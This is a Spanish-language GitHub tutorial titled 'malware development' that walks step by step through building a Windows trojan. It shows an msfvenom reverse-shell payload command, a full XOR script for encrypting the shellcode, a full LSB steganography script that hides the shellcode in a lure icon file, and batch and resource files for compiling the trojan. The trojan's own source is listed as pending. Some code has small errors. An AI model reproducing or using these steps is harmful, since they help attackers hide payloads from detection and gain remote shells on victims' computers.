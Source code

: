 ## DESARROLLO DE MALWARE BY @N3XXU5_666

- Dependencies
```bash
apt update && apt upgrade
apt install curl python
python3 -m pip install pillow wave numpy
```
NOTE: en Termux numpy se instala desde APT y python se ejecuta sin el '3'
- Descarga de imagen .ico
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o pornhub.ico
```

- Payload or Shellcode:
```bash
msfvenom -p windows/x86/shell_reverse_tcp LHOST 0.0.0.0 LPORT 0000 -f raw -o shellcode.bin
```

- File xor.py
```python
import sys

def xor(inputData, encKey):

  encKey = str(encKey)
  l = len(encKey)
  outStr = b""

  for i in range(len(inputData)):
    cde = inputData[i]
    ck = encKey[i % len(encKey)]
    outStr += chr(cde ^ ord(ck)).encode('latin-1')

  return outStr

if name == "main":

  ENCRYPT_KEY = "wubbalubbadubdub"
  try:
    plainText = open(sys.argv[1], "rb").read()
    cipherText = xor(plainText, ENCRYPT_KEY)
    open("encrypted.bin", "wb").write(cipherText)
  except:
    print(f"Usage: python3 {sys.argv[0]} <payload file>")
    sys.exit(1)
```

- Encrypt payload :
```bash
python xor.py shellcode.bin #Crea un archivo llamado encrypted.bin
```

- file lsb.py
```python
from PIL import Image
from pydub import AudioSegment
import numpy as np
import wave
import sys

def printHelp():

  print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
      """)

def hideBits(orig, msgFile, dest):

  img = Image.open(orig,'r')
  width, height = img.size
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  message = open(msgFile, "rb")
  message = message.read()
  message += b"$end_of_message$"
  b_message = ''.join([format(i, "08b") for i in message])
  req_pixels = len(b_message)
  if req_pixels > total_pixels:
    print("ERROR: Need larger file size")
  else:
    index = 0
    for p in range(total_pixels):
      for q in range(0,3):
        if index < req_pixels:
          array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
          index += 1
    array = array.reshape(height, width, n)
    enc_img = Image.fromarray(array.astype('uint8'), img.mode)
    enc_img.save(dest)
    print("\nHidden message successfully!\n")

def extract(path):

  img = Image.open(path, 'r')
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  hidden_bits = ""
  for p in range(total_pixels):
    for q in range(0,3):
      hidden_bits += (bin(array[p][q])[2:][-1])
  hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
  message = b""
  for i in range(len(hidden_bits)):
    if message[-16:] == b"$end_of_message$":
      break
    else:
      message += chr(int(hidden_bits[i],2)).encode('latin-1')
  dstFile = open("message.bin", "wb")
  if b"$end_of_message" in message:
    dstFile.write(message[:-16])
    print("\nUnhidden message successfully!\n")
  else:
    print("\nNo Hidden Message Found\n")

if name == "main":

  if len(sys.argv) != 5 and len(sys.argv) != 3:
    printHelp()
    sys.exit(1)
  if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
    printHelp()
    sys.exit(1)
  if sys.argv[1] == "-hide":
    if len(sys.argv) != 5:
      printHelp()
      sys.exit(1)
    hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
  else:
    if len(sys.argv) != 3:
      printHelp()
      sys.exit(1)
    extract(sys.argv[2])
```
- Inyecta el shellcode en la imagen
```bash
python3 -hide pornhub.ico shellcode.bin pornhublsb.ico
```
- Extrae el shellcode de la imagen
```bash
python3 -extract pornhublsb.ico # Crea archivo message.bin
```
#### REFERENCIAS :
| [SHELLCODES](http://shell-storm.org/shellcode/index.html) | Shellcodes pre-creados |
| [DONUT](https://github.com/TheWover/donut) | Convierte codigo cpp compilado a shellcode |

## SCRIPTS EN BATCH PARA COMPILAR TROJANO
Proceso desde SO Windows
- Compilador (VS-code) FILE: compile.bat
```
@ECHO OFF

rc resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /0x /MI /W0 /GS- /DNDBUG /Tp trojan.cpp /Link /OUT:resources.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```
#### REFERENCIAS :
[COMPILER-FLAGS](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options-listed-alphabetically?view=msvc-170) | Banderas de compilacion. Se pueden modificar en base al compilador a usar.

- resources.rc
```
#include "resources.h"

MY_ICON RCDATA pornhublsb.ico
```
- resources.h
```
#define My_ICO 200
```
- trojan1.cpp
```
Pendiente para la siguiente sesion de sabado 10/12/2022
```
- Proceso de compilacion desde el x64 Native Tools Command Prompt for Visual Studio
Los native tools ya vienen instalados al instalar [FLARE-VM](https://github.com/mandiant/flare-vm) | Software de Analisis de malware
```
compile.bat 
```

#### Follow me on [Socials Network](https://wlo.link/@Ivam3)
#### Follow at N3XU5 on [Telegram](https://t.me/N3XU5_666) & [YouTube](https://www.youtube.com/@N3XU5_666)
#### JOIN to the next [LIVESTREAM](https://t.me/Ivam3byCinderella?livestream)



